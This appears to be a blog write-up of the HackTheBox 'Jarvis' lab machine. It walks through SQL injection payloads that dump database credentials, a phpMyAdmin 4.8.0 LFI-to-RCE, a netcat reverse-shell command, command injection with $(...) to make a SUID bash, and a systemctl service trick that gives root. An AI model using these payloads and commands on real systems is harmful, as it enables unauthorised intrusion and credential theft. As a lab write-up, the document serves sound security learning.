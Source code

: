 ```yaml
---
layout: default
title: "HTB - Jarvis"
date: 2020-02-05
permalink: /hackthebox/jarvis/
categories: hackthebox sqli linux web suid
image: jarvis.png
---
```



Jarvis was the first box I ever touched, and I think it has a good range of vulnerabilties and attack surfaces.
<!--more-->
**Summary**
**User** - A website is vulnerable to SQL injection, allowing credential gathering for PHPMyAdmin. PHPMyAdmin has a RFI vulnerability allowing for PHP RCE, giving a shell. A bad sudo rule gives us elevation to user.

**Root** - We have permission to create a custom service which runs as root.
## User
### Enumeration
Starting off with a standard `nmap` scan. Normally I'd leave one running to scan all ports aggressively, but it wasn't necessary in this case.
```
root@clubby789:~# nmap writeup.htb -v
[ ... ]
Discovered open port 80/tcp on 10.10.10.143 <- Web (HTTP)
Discovered open port 22/tcp on 10.10.10.143 <- SSH
```
Web is open, so I'll add `10.10.10.143 supersecurehotel.htb` to /etc/hosts (this was the hostname in the banner of the website)
### Website
The website appears to be a site advertising 'Stark Hotel'. Before running page discovery scripts like `dirb`, I decided to look around manually. The main page that caught my interest was `/room.php`, which took the GET paramater `cod`. By playing with this, I found I could break the output with a non-existent room.
![Rooms](/assets/jarvis1.png)
 This looked like SQL injection, so I fired up SQLMap.
```
root@clubby789:~/boxes/jarvis# sqlmap -u http://supersecurehotel.htb/room.php?cod=10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.10#pip}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[ ... ]

[14:16:52] [INFO] GET parameter 'cod' appears to be 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)' injectable 
```

It was at this point the output stopped, I checked the site, and lo and behold:
![Banned](/assets/jarvis2.png)
It appears we'll get banned for any heavy requesting on the `room.php` page, so we'll have to do this manually.
### SQL Injection
 Via trial and error, I found that `cod=100 UNION SELECT 1,2,3,4,5,6,7;-- -` populated some of the fields in the page, meaning we have 7 columns in the SELECT.
 ![Banned](/assets/jarvis3.png)
 By comparing the output to `cod=1`, we can see that 5 is the picture, 2 is the room title, 3 is the price, and 4 is the description.

I used this information to explore the db, and eventually managed to dump credentials with `SELECT 1, user,3, 4,password, 6, 7 from mysql.user;-- -`. Using this, we get the info
`DBadmin:2D2B7A5E4E637B8FBA1D17F40318F277D29964D0`. Taking this over to [https://crackstation.net/](https://crackstation.net/), we find that this password is `imissyou`. But where to use this? I set off `dirb` to enumerate pages (we only get banned for heavy requests on `room.php`, the rest of the site is fair game).
```
root@clubby789:~/boxes/jarvis# dirb http://supersecurehotel.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------
[ ... ]                                                                                                                                                                 
==> DIRECTORY: http://supersecurehotel.htb/phpmyadmin/                                                                                                                                                                        
```
We have PHPMyAdmin! Let's log in.

### PHPMyAdmin
The page title reveals the version as PHPMyAdmin 4.8.0. There is an LFI/RCE exploit for this, explained [here](https://medium.com/@happyholic1203/phpmyadmin-4-8-0-4-8-1-remote-code-execution-257bcc146f8e). We can demonstrate this with `http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%3f../../../../../../../etc/passwd`, which gives use the contents of the `passwd` file. 
 
 ![/etc/passwd](/assets/jarvis4.png)

Originally, I tried session log poisoning, but I couldn't get it to include my sessionfile. Luckily, I found the Metasploit module `exploit/multi/http/phpmyadmin_lfi_rce`, which drops us a Meterpreter session. I personally don't like using Meterpreter to enumerate, so I found `nc -e` was allowed, ran `nc -e /bin/bash IP 8888` to get a shell back, then `python -c 'import pty;pty.spawn("/bin/bash")'`, and finally `Ctrl-Z, stty raw -echo, fg` to get a full tty shell.

### Privesc to user
At this point we have a shell as www-data. I tried `sudo -l` to see if we had a quick path to root/user, and luckily got
```
www-data@jarvis:/usr/share/phpmyadmin$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```
So we can run `simpler.py` as `pepper`, I wonder what that is?
```
www-data@jarvis:/usr/share/phpmyadmin$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -s
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Statistics
-----------
Number of Attackers: 1
Most Risky:
    10.10.14.38 - Attack Level : 4 Request: : GET /room.php?cod=10
Most Recent: 10.10.14.38 --> 2020-02-05 09:43:44 : GET /phpmyadmin/server_privileges.php?viewing_mode=server&ajax_request=true&ajax_page_request=true&_nocache=158091381603427055&token=6JB99T%40w%27%3ET4E9O7
```
Seems to be a frontend for the SQLi bruteforce prevention from earlier. A quick look around the script reveals:
```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```
So it runs `ping <user input>`.  Seems like simple command injection, but a lot of the standard characters for command chaining are blocked. Luckily, they forgot some.
 ![Banned](/assets/jarvis5.png)
 By including `$(command)`, our command is executed before the ping, which means no worrying about ensuring that the ping doesn't fail. To get a quick shell as `pepper`, I ran `$(cp /bin/bash /tmp/clubsh)` followed by `$(chmod u+s /tmp/clubsh)`. This copies `bash` to `/tmp` and then sets the SUID bit on it, meaning it will run as `pepper`. I have to call it with `/bin/clubsh -p` to force it not to drop privileges.
 ```
clubsh-4.4$ id
uid=33(www-data) gid=33(www-data) euid=1000(pepper) groups=33(www-data)
```
Our effective UID is 1000, meaning we can run commands as `pepper`. From here, I created `/home/pepper/.ssh`, echoed my public key to `authorized_keys`, and now I can SSH in.
```
pepper@jarvis:~$ ls
user.txt  Web
pepper@jarvis:~$ cat user.txt 
2afa3.....
```
And we've owned User.
## Root
### Local Enumeration
I first uploaded `linpeas.sh` to quickly find anything interesting. It found a list of SUID files:
```
====================================( Interesting Files )=====================================
[+] SUID
[ ... ]
/bin/systemctl <- Highlighted
[ ... ]
```

`systemctl` has SUID set, so we can run it as root. Using the awesome resource gtfobins.github.io, we find [https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/).
Excerpt:
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
If we paste this sample script in, we get 
```
pepper@jarvis:~$ cat /tmp/output 
uid=0(root) gid=0(root) groups=0(root)
```
so we wrote to a file as root! Time to hijack this for a full shell! 
### systemctl Hijacking
By simply chaning the command to `mkdir /root/.ssh; cp /home/pepper/.ssh/authorized_keys /root/.ssh/authorized_keys`, I copy my ssh public key into root's directory, and we can now ssh straight in as root.
```
root@jarvis:~# cat root.txt 
d41d8c.....
```
Root owned!

## Final Notes
The first part of this box was the hardest IMO, as it forced me not to rely on automated tools to enumerate credentials. Beyond that, the steps were fairly simple, but good for introducing simple command injection and SUID hijacking for privilege escalation.
